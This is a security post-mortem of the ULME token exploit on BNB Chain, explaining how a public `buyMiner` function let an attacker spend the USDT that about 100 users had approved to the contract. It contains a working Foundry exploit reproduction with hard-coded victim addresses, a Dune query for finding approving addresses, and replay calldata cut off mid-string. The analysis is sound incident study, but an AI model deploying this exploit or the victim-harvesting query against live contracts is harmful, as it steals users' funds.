# 221025-ULME

## AttackTx

Analyzing the [attack transaction](https://explorer.phalcon.xyz/tx/bsc/0xdb9a13bc970b97824e082782e838bdff0b76b30d268f1d66aac507f1d43ff4ed) using Phalcon.

### Fund Flow



By examining the sequence, it's evident that the attacker first borrowed USDT from 7 DODO pools using flash loans and then returned it after executing other operations (borrowing before repaying). This allowed them to acquire a significant amount of funds required for the attack. The Receiver, in this context, refers to the attacker's contract.



Subsequently, using the 1000k USDT obtained through flash loans, the attacker exchanged it for approximately 5232k ULME tokens from PancakeSwap pools (8, 12). Finally, they used approximately 4709k ULME tokens to obtain around 1050k USDT (119, 120), resulting in a net profit of approximately 50k USDT.

After the attacker obtained ULME tokens, a large number of addresses transferred USDT to the ULME contract (13, 17, 18...). Furthermore, it appears that the ULME contract used these USDT to swap for ULME tokens in the pool (14, 15, 16).

Hence, these numerous addresses transferring USDT should be considered victims. The attacker initially accumulated a substantial amount of ULME tokens and then manipulated the victim accounts to use their USDT to purchase ULME tokens, artificially inflating the price and profiting from it.

The reason behind this attack may be that the victim accounts had approved the ULME contract for USDT, and the ULME contract contained an external function that allowed the use of authorized addresses to purchase ULME tokens with USDT (access control vulnerability).

### Balance Changes



The balance changes corroborate the above analysis.

### State Changes



The `_allowances` for USDT show that these addresses approved a substantial amount for the ULME contract and subsequently decreased the allowances.

### Invocation Flow

Next, let's delve into the details of internal calls within the transaction.



The outermost layer consists of multiple flash loans, borrowing before repaying.



After borrowing a sufficient amount of USDT, the attacker first exchanged it for a substantial amount of ULME tokens through PancakeRouter. Then, they sequentially retrieved information about the victims' allowances and balances and called the `buyMiner` function of the ULME contract. (There are approximately 100 victims, suggesting that the attacker had obtained addresses that had previously approved USDT for the ULME contract.)



Within the `buyMiner` function, the victim's address transferred USDT to the ULME contract and then used the USDT to exchange for ULME tokens within pools (with a brief detour through address 0x2581, but ultimately, the ULME tokens were not transferred to the victim, which is quite unusual).



Finally, the attacker converted the ULME tokens back to USDT, realizing their profit, while the victim incurred losses as their USDT was added to the pools to boost the price (and they didn't even receive ULME tokens).

## Vulnerability

Now, let's analyze the vulnerable [ULME contract](https://bscscan.com/address/0xAE975a25646E6eB859615d0A147B909c13D31FEd#code).

From the analysis of the attack transaction, it is clear that the vulnerability lies in the `buyMiner` function of the contract.

``` solidity
function buyMiner(address user, uint256 usdt) public returns (bool) {
    address[] memory token = new address[](2);
    token[0] = _usdt_token;
    token[1] = address(this);
    usdt = usdt.add(usdt.div(10));
    require(IERC20(_usdt_token).transferFrom(user, address(this), usdt), "buyUlm: transferFrom to ulm error");
    uint256 time = sale_date;
    sale_date = 0;
    address k = 0x25812c28CBC971F7079879a62AaCBC93936784A2;
    IUniswapV2Router01(_roter).swapExactTokensForTokens(usdt, 1000000, token, k, block.timestamp + 60);
    IUniswapV2Router01(k).transfer(address(this), address(this), IERC20(address(this)).balanceOf(k));
    sale_date = time;
    return true;
}
```

As observed earlier, this function first calls `transferFrom` to transfer USDT from the `user` address to this contract (with an amount of `1.1*usdt`) and then proceeds with the ULME exchange and transfer operations. The visibility of this function is `public`, enabling anyone to exploit it.

## Exploit

### Reproduce

To reproduce the exploit based on AttackTx, the following code can be used.

``` solidity
function testExploit() external {
    uint256 attackBlockNumber = 22476695;
    vm.rollFork(attackBlockNumber);

    uint256 startBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Initial attacker USDT", startBalance, usdt.decimals());
    uint256 dodo1USDT = usdt.balanceOf(dodo1);
    // start flashloan
    IDVM(dodo1).flashLoan(0, dodo1USDT, address(this), abi.encode("dodo1"));

    // attack end
    uint256 endBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Total profit USDT", endBalance - startBalance, usdt.decimals());
}

function dodoCall(address, /*sender*/ uint256, /*baseAmount*/ uint256 quoteAmount, bytes calldata /*data*/ ) internal {
    if (msg.sender == dodo1) {
        uint256 dodo2USDT = usdt.balanceOf(dodo2);
        IDPPAdvanced(dodo2).flashLoan(0, dodo2USDT, address(this), abi.encode("dodo2"));
        usdt.transfer(dodo1, quoteAmount);
    } else if (msg.sender == dodo2) {
        uint256 dodo3USDT = usdt.balanceOf(dodo3);
        IDPPOracle(dodo3).flashLoan(0, dodo3USDT, address(this), abi.encode("dodo3"));
        usdt.transfer(dodo2, quoteAmount);
    } else if (msg.sender == dodo3) {
        uint256 dodo4USDT = usdt.balanceOf(dodo4);
        IDPP(dodo4).flashLoan(0, dodo4USDT, address(this), abi.encode("dodo4"));
        usdt.transfer(dodo3, quoteAmount);
    } else if (msg.sender == dodo4) {
        uint256 dodo5USDT = usdt.balanceOf(dodo5);
        IDPPAdvanced(dodo5).flashLoan(0, dodo5USDT, address(this), abi.encode("dodo5"));
        usdt.transfer(dodo4, quoteAmount);
    } else if (msg.sender == dodo5) {
        uint256 dodo6USDT = usdt.balanceOf(dodo6);
        IDPPOracle(dodo6).flashLoan(0, dodo6USDT, address(this), abi.encode("dodo6"));
        usdt.transfer(dodo5, quoteAmount);
    } else if (msg.sender == dodo6) {
        uint256 dodo7USDT = usdt.balanceOf(dodo7);
        IDPPOracle(dodo7).flashLoan(0, dodo7USDT, address(this), abi.encode("dodo7"));
        usdt.transfer(dodo6, quoteAmount);
    } else if (msg.sender == dodo7) {
        // flashloan end, start attack
        emit log_named_decimal_uint("Total borrowed USDT", usdt.balanceOf(address(this)), usdt.decimals());

        // approve before swap
        usdt.approve(address(pancakeRouter), type(uint256).max);
        ulme.approve(address(pancakeRouter), type(uint256).max);
        USDT2ULME();
        emit log_named_decimal_uint("Total exchanged ULME", ulme.balanceOf(address(this)), ulme.decimals());

        address[] memory victims = new address[](101);
        victims[0] = 0x4A005e5E40Ce2B827C873cA37af77e6873e37203;
        victims[1] = 0x5eCe8A3382FD5317EBa6670cAe2F70ccA8845859;
        victims[2] = 0x065D5Bfb0bdeAdA1637974F76AcF54428D61c45d;
        victims[3] = 0x0C678244aaEd33b6c963C2D6B14950d35EAB899F;
        victims[4] = 0x1F0D9584bC8729Ec139ED5Befe0c8677994FcB35;
        victims[5] = 0x6b8cdC12e9E2F5b3620FfB12c04C5e7b0990aaf2;
        victims[6] = 0xA9882080e01F8FD11fa85F05f7c7733D1C9837DF;
        victims[7] = 0x1dFBBECc9304f73caD14C3785f25C1d1924ACB0B;
        victims[8] = 0x0b038F3e5454aa745Ff029706656Fed638d5F73a;
        victims[9] = 0x0Bd084decfb04237E489cAD4c8A559FC5ce44f90;
        victims[10] = 0x5EB2e4907f796C9879181041fF633F33f8858d93;
        victims[11] = 0x0DE272Ef3273d49Eb608296A783dBd36488d3989;
        victims[12] = 0xAe800360ac329ceA761AFDa2d3D55Bd12932Ab62;
        victims[13] = 0xf7726cA96bF1Cee9c6dC568ad3A801E637d10076;
        victims[14] = 0x847aA967534C31b47d46A2eEf5832313E36b25E2;
        victims[15] = 0x6c91DA0Dc1e8ab02Ab1aB8871c5aE312ef04273b;
        victims[16] = 0xb14018024600eE3c747Be98845c8536994D40A5D;
        victims[17] = 0x8EcdD8859aA286c6bae1f570eb0105457fD24cd2;
        victims[18] = 0x6ff1c499C13548ee5C9B1EA6d366A5E11EcA60ca;
        victims[19] = 0xC02eb88068A40aEe6E4649bDc940e0f792e16C22;
        victims[20] = 0xa2D5b4de4cb10043D190aae23D1eFC02E31F1Cb6;
        victims[21] = 0x5E05B8aC4494476Dd539e0F4E1302806ec52ED6F;
        victims[22] = 0xDeb6FDCa49e54c8b0704C5B3f941ED6319139816;
        victims[23] = 0x0E6533B8d6937cC8b4c9be31c00acBfaCB6760a5;
        victims[24] = 0xCE0Fd72a7cF07EB9B20562bbb142Cb711A42867f;
        victims[25] = 0x4868725bf6D395148def99E6C43074C774e7AC1D;
        victims[26] = 0x2F1f2BAF34703d16BcfD62cF64A7A5a44Ad6c9d4;
        victims[27] = 0x3d49Bdf065f009621A02c5Fd88f72ed0A3910521;
        victims[28] = 0x6E31C08f1938BE5DF98F8968747bB34802D76E50;
        victims[29] = 0x4F741D8DCDEdd74DadeA6cd3A7e41ECb28076209;
        victims[30] = 0x5480c14b9841C89527F0D1A55dDC0D273Aae3609;
        victims[31] = 0xb3725dA113eFFd7F39BE62A5E349f26e82a949fF;
        victims[32] = 0x9d83Dee089a5fBfB5F2F1268EDB80aeA8Ba5aF16;
        victims[33] = 0x0c02F3d6962245E934A3fe415EAbA6bf570c1883;
        victims[34] = 0x0182cfEFB268DD510ee77F32527578BEAC6238e2;
        victims[35] = 0x78598Ac3943454682477852E846532F73d5cFE5F;
        victims[36] = 0xd067c7585425e1e5AA98743BdA5fB65212751476;
        victims[37] = 0x3507ddF8b74dAEd03fE76EE74B7d6544F3B254B7;
        victims[38] = 0xEca4Fd6b05E5849aAf5F2bEE5Eb3B50f8C4f4E3c;
        victims[39] = 0xAA279af072080f3e453A916b77862b4ff6eB245E;
        victims[40] = 0x4e505a21325A6820E2099Bbd15f6832c6f696a3c;
        victims[41] = 0xA5b63F7b40A5Cc5ee6B9dB7cef2415699627Ee89;
        victims[42] = 0x3dd624cEd432DDc32fA0afDaE855b76aa1431644;
        victims[43] = 0x17f217Fdeff7Ee4a81a4b2f42c695EDC20806957;
        victims[44] = 0x41819F36878d15A776225928CD52DC56acCFD553;
        victims[45] = 0x61ca76703C5aF052c9b0aCc2Bab0276875DDd328;
        victims[46] = 0x2956bCc87450B424C7305C4c6CF771196c23A52E;
        victims[47] = 0x03be05224803c89f3b8C806d887fD84A20D16e5C;
        victims[48] = 0x3C97320bf030C2c120FdCe19023A571f3fbB6184;
        victims[49] = 0xc52021150ca5c32253220bE328ddC05F86d3a619;
        victims[50] = 0x6d7aAa35c4B2dBD6F1E979e04884AeE1B4FBB407;
        victims[51] = 0x7c80162197607312EC99d7c9e34720B3572d6D16;
        victims[52] = 0x15D92C909826017Ff0184eea3e38c36489517A7C;
        victims[53] = 0xC07fa7a1F14A374d169Dc593261843B4A6d9C1C3;
        victims[54] = 0x4b415F48FA70a9a0050F6380e843790260973808;
        victims[55] = 0x9CeEeB927b85d4bD3b4e282c17EB186bCDC4Dd15;
        victims[56] = 0x0eb76DAf60bdF637FC207BFb545B546D5Ee208B1;
        victims[57] = 0x96D7F1660e708eDdF2b6f655ADB61686B59bC190;
        victims[58] = 0xDCeB637E38dBae685222eEf6635095AaaEC65496;
        victims[59] = 0x36083Aac533353317C24Bd53227DbF29Ed9F384c;
        victims[60] = 0x94913f31fBaFcb0ae6e5EfA4C18E3ee301097eab;
        victims[61] = 0x188c50F43f9fA0026BAaa7d8cF83c358311f0500;
        victims[62] = 0x3d8dcC70777643612564D84176f769A1417987a5;
        victims[63] = 0x00273CEEe956543c801429A886cD0E1a79f5d8cA;
        victims[64] = 0xC43C5F785D06b582E3E710Dc0156267Fd135C602;
        victims[65] = 0x0406aefd83f20700D31a49F3d6fdbF52e8F7D0Ef;
        victims[66] = 0xBeD8C7433dE90D349f96C6AE82d4eb4482AA6Bf7;
        victims[67] = 0xDe436F7742cE08f843f8d84e7998E0B7e4b73101;
        victims[68] = 0xd38c6E26aa4888DE59C2EAaD6138B0b66ABBF21D;
        victims[69] = 0xc0dFb3219F0C72E902544a080ba0086da53F9599;
        victims[70] = 0xFAAD61bd6b509145c2988B03529fF21F3C9970B2;
        victims[71] = 0x9f9BEEF87Cfe141868E21EacbDDB48DF6c54C2F2;
        victims[72] = 0x6614e2e86b4646793714B1fa535fc5875bB446d5;
        victims[73] = 0x7eFe3780b1b0cde8F300443fbb4C12a73904a948;
        victims[74] = 0xAd813b95A27233E7Abd92C62bBa87f59Ca8F9339;
        victims[75] = 0x13F33854cE08e07D20F5C0B16884267dde21a501;
        victims[76] = 0x59ebcde7Ec542b5198095917987755727725fD1d;
        victims[77] = 0xe5A5B86119BD9fd4DF5478AbE1d3D9F46BF3Ba5F;
        victims[78] = 0xC2724ed2B629290787Eb4A91f00aAFE58F262025;
        victims[79] = 0xDFa225eB03F9cc2514361A044EDDA777eA51b9ad;
        victims[80] = 0x85d981E3CDdb402F9Ae96948900971102Ee5d6b5;
        victims[81] = 0xb0Ac3A88bFc919cA189f7d4AbA8e2F191b37A65B;
        victims[82] = 0x1A906A9A385132D6B1a62Bb8547fD20c38dd79Bb;
        victims[83] = 0x9d36C7c400e033aeAc391b24F47339d7CB7bc033;
        victims[84] = 0x5B19C1F57b227C67Bef1e77b1B6796eF22aEe21B;
        victims[85] = 0xbfd0785a924c3547544C95913dAC0b119865DF9e;
        victims[86] = 0xF003E6430fbC1194ffA3419629A389B7C113F083;
        victims[87] = 0xfa30Cd705eE0908e2Dac4C19575F824DED99818E;
        victims[88] = 0xe27027B827FE2FBcFCb56269d4463881AA6B8955;
        victims[89] = 0xEddD7179E461F42149104DCb87F3b5b657a05399;
        victims[90] = 0x980FcDB646c674FF9B6621902aCB8a4012974093;
        victims[91] = 0x2eBc77934935980357A894577c2CC7107574f971;
        victims[92] = 0x798435DE8fA75993bFC9aD84465d7F812507b604;
        victims[93] = 0x1Be117F424e9e6f845F7b07C072c1d67F114f885;
        victims[94] = 0x434e921bDFe74605BD2AAbC2f6389dDBA2d37ACA;
        victims[95] = 0xaFacAc64426D1cE0512363338066cc8cABB3AEa2;
        victims[96] = 0x2693e0A37Ea6e669aB43dF6ee68b453F6D6F3EBD;
        victims[97] = 0x77Aee2AAc9881F4A4C347eb94dEd088aD49C574D;
        victims[98] = 0x951f4785A2A61fe8934393e0ff6513D6946D8d97;
        victims[99] = 0x2051cE514801167545E74b5DD2a8cF5034c6b17b;
        victims[100] = 0xC2EE820756d4074d887d762Fd8F70c4Fc47Ab47f;

        uint256 loss = 0;
        // start exploit buyMiner function
        for (uint256 i; i < victims.length; i++) {
            address victim = victims[i];
            uint256 allowance = usdt.allowance(victim, address(ulme));
            uint256 balance = usdt.balanceOf(victim);
            uint256 available = balance <= allowance ? balance : allowance; // available USDT

            if (available > 0) {
                uint256 amount = available * 10 / 11; // according to the buyMiner function, *10/11 to drain all USDT
                ulme.buyMiner(victim, amount);
                loss += available;
            } else {
                emit log_named_address("Insufficient USDT", victim);
            }
        }
        emit log_named_decimal_uint("Total loss USDT", loss, usdt.decimals());

        ULME2USDT();

        usdt.transfer(dodo7, quoteAmount);
    }
}

function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
    dodoCall(sender, baseAmount, quoteAmount, data);
}

function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
    dodoCall(sender, baseAmount, quoteAmount, data);
}

function USDT2ULME() internal {
    address[] memory path = new address[](2);
    path[0] = address(usdt);
    path[1] = address(ulme);
    pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        1_000_000 ether, 0, path, address(this), block.timestamp
    );
}

function ULME2USDT() internal {
    address[] memory path = new address[](2);
    path[0] = address(ulme);
    path[1] = address(usdt);
    pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens( // ULME token has transfer fees
        ulme.balanceOf(address(this)) - 100, // can not swap all, according to the transactionFee function
        0,
        path,
        address(this),
        block.timestamp
    );
}
```

Initially, a significant amount of USDT was flashloaned from seven DODO pools. Subsequently, the attacker exchanged the borrowed USDT for approximately 5232k ULME tokens from PancakeSwap pools. Then, they used the vulnerable `buyMiner` function to exchange victim's USDT for ULME tokens, artificially inflating the price. Finally, the attacker converted ULME tokens back to USDT, repaying the borrowed funds, resulting in a profit of approximately 50k USDT.

A few important points to note include the following logic from the `buyMiner` function:

``` solidity
usdt = usdt.add(usdt.div(10));
require(IERC20(_usdt_token).transferFrom(user, address(this), usdt), "buyUlm: transferFrom to ulm error");
```

To use all of the victim's USDT for ULME token exchange, the parameter passed should be `available*10/11`. In the `buyMiner` function, this is adjusted again by `*11/10` to fully utilize the USDT.

In the ULME contract's `_transfer` function, it first calls the `transactionFee` function, indicating that there is a transaction fee for ULME contract transfers. Therefore, when exchanging USDT for ULME, the PancakeRouter's `swapExactTokensForTokensSupportingFeeOnTransferTokens` function should be used.

``` solidity
function _transfer(
    address from,
    address to,
    uint256 amount
) internal {
    amount = transactionFee(from, to, amount);
    super._transfer(from, to, amount);
}
```

Additionally, within the `transactionFee` function, there is the following code:

``` solidity
require(balanceOf(from) > amount, "balanceOf is Insufficient");
```

Therefore, the amount of ULME tokens passed in the exchange should not deplete the entire balance.

### Attack Flow

Analyzing the entire attack flow for the [attacker's address](https://bscscan.com/address/0x056c20ab7e25e4dd7e49568f964d98e415da63d3).



First, on October 25th, at approximately 8:12 AM, the attacker used Tornado Cash to deposit 1 BNB as initial capital for the attack.


About 5 minutes later, the attacker created the attack contract used for the exploit.



Two minutes after that, the attacker called the deployed attack contract to initiate the attack. Subsequently, they exchanged the obtained USDT for approximately 184 BNB and, in the end, withdrew the funds using Tornado Cash, completing the entire attack process.

## Misc

### ULME Token

Regarding the vulnerable ULME token, apart from this attack, there doesn't seem to be much information available.

The [transaction creating the token contract](https://bscscan.com/tx/0xd0fa63b9f78f320f049b7d47c4d6c127303090438b671a8c399e95800d5eb27d) has `msg.sender` as [0x4A005e5E40Ce2B827C873cA37af77e6873e37203](https://bscscan.com/address/0x4a005e5e40ce2b827c873ca37af77e6873e37203), and the `dis` parameter is a [contract address](https://bscscan.com/address/0x096b8f93a642dbb5e8162d9d618fac2cea6f2c2d). In block [22314002](https://bscscan.com/block/22314002), the token contract creator sent a [transaction](https://bscscan.com/tx/0x01cb90ac3741611863c1a4c64939ccf80372805dc4828738e3113068fbdfbad1) that called the `dis` contract and set variables like `roter`, `sell`, and `usdt_token`.

Upon closer examination of related contracts, some have Chinese comments, suggesting that this might be a project from China. It's not entirely clear, and there could be many tokens associated with these addresses.

### Victims

An important condition for this attack was the need to obtain many addresses that had approved the vulnerable contract for spending their USDT (victims). Websites like Etherscan only provide functionality for checking [Token Approval](https://info.etherscan.com/tokenapprovals/) for a specific address. It is speculated that the attacker might have used tools like Dune Analytics or nodes to query approval data.

For example, using the following SQL query in Dune Analytics, it is possible to retrieve the most recent 100 addresses that approved the ULME contract to spend their USDT:

``` sql
SELECT
  evt_block_time AS timestamp,
  evt_tx_hash AS transaction_hash,
  owner AS owner,
  spender AS spender
FROM bep20usdt_bnb.BEP20USDT_evt_Approval
WHERE
  spender = 0xAE975a25646E6eB859615d0A147B909c13D31FEd
ORDER BY evt_block_time DESC
LIMIT 100;
```

### Frontrunning Protection

Typically, attack contracts include code to prevent frontrunning.

As observed in AttackTx, it appears that the first step after calling the attack contract is signature verification, likely implemented to prevent frontrunning.



Upon decompilation, a detailed analysis of the [attack contract](https://bscscan.com/address/0x8523c7661850d0da4d86587ce9674da23369ff26) deployed by the attacker can be seen.

It verifies the signature passed as a parameter and requires it to match `msg.sender`, making it difficult to directly replay the attack by simply copying the parameters. A replay would require generating a new signature.



``` solidity
function testFrontrun() external {
    uint256 attackBlockNumber = 22476695;
    address attackContract = 0x8523C7661850D0Da4D86587ce9674DA23369fF26;
    address attacker = 0x056c20Ab7E25e4dd7E49568f964d98E415da63D3;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(attacker);
    uint256 balance0 = usdt.balanceOf(attacker);
    bytes memory data =
        hex"016ccafe00000000000000000000000000000000000000000000000000000000000000a000000000000000000000000000000000000000000000000000000000000f424000000000000000000000000000000000000000000000000000000000000000640000000000000000000000000000000000000000000000000000000000000d60000000000000000000000000000000000000000000000000000000000000008000000000000000000000000000000000000000000000000000000000000000650000000000000000000000004a005e5e40ce2b827c873ca37af77e6873e372030000000000000000000000005ece8a3382fd5317eba6670cae2f70cca8845859000000000000000000000000065d5bfb0bdeada1637974f76acf54428d61c45d0000000000000000000000000c678244aaed33b6c963c2d6b14950d35eab899f0000000000000000000000001f0d9584bc8729ec139ed5befe0c8677994fcb350000000000000000000000006b8cdc12e9e2f5b3620ffb12c04c5e7b0990aaf2000000000000000000000000a9882080e01f8fd11fa85f05f7c7733d1c9837df0000000000000000000000001dfbbecc9304f73cad14c3785f25c1d1924acb0b0000000000000000000000000b038f3e5454aa745ff029706656fed638d5f73a0000000000000000000000000bd084decfb04237e489cad4c8a559fc5ce44f900000000000000000000000005eb2e4907f796c9879181041ff633f33f8858d930000000000000000000000000de272ef3273d49eb608296a783dbd36488d3989000000000000000000000000ae800360ac329cea761afda2d3d55bd12932ab62000000000000000000000000f7726ca96bf1cee9c6dc568ad3a801e637d10076000000000000000000000000847aa967534c31b47d46a2eef5832313e36b25e20000000000000000000000006c91da0dc1e8ab02ab1ab8871c5ae312ef04273b000000000000000000000000b14018024600ee3c747be98845c8536994d40a5d0000000000000000000000008ecdd8859aa286c6bae1f570eb0105457fd24cd20000000000000000000000006ff1c499c13548ee5c9b1ea6d366a5e11eca60ca000000000000000000000000c02eb88068a40aee6e4649bdc940e0f792e16c22000000000000000000000000a2d5b4de4cb10043d190aae23d1efc02e31f1cb60000000000000000000000005e05b8ac4494476dd539e0f4e1302806ec52ed6f000000000000000000000000deb6fdca49e54c8b0704c5b3f941ed63191398160000000000000000000000000e6533b8d6937cc8b4c9be31c00acbfacb6760a5000000000000000000000000ce0fd72a7cf07eb9b20562bbb142cb711a42867f0000000000000000000000004868725bf6d395148def99e6c43074c774e7ac1d0000000000000000000000002f1f2baf34703d16bcfd62cf64a7a5a44ad6c9d40000000000000000000000003d49bdf065f009621a02c5fd88f72ed0a39105210000000000000000000000006e31c08f1938be5df98f8968747bb34802d76e500000000000000000000000004f741d8dcdedd74dadea6cd3a7e41ecb280762090000000000000000000000005480c14b9841c89527f0d1a55ddc0d273aae3609000000000000000000000000b3725da113effd7f39be62a5e349f26e82a949ff0000000000000000000000009d83dee089a5fbfb5f2f1268edb80aea8ba5af160000000000000000000000000c02f3d6962245e934a3fe415eaba6bf570c18830000000000000000000000000182cfefb268dd510ee77f32527578beac6238e200000000000000000000000078598ac3943454682477852e846532f73d5cfe5f000000000000000000000000d067c7585425e1e5aa98743bda5fb652127514760000000000000000000000003507ddf8b74daed03fe76ee74b7d6544f3b254b7000000000000000000000000eca4fd6b05e5849aaf5f2bee5eb3b50f8c4f4e3c000000000000000000000000aa279af072080f3e453a916b77862b4ff6eb245e0000000000000000000000004e505a21325a6820e2099bbd15f6832c6f696a3c000000000000000000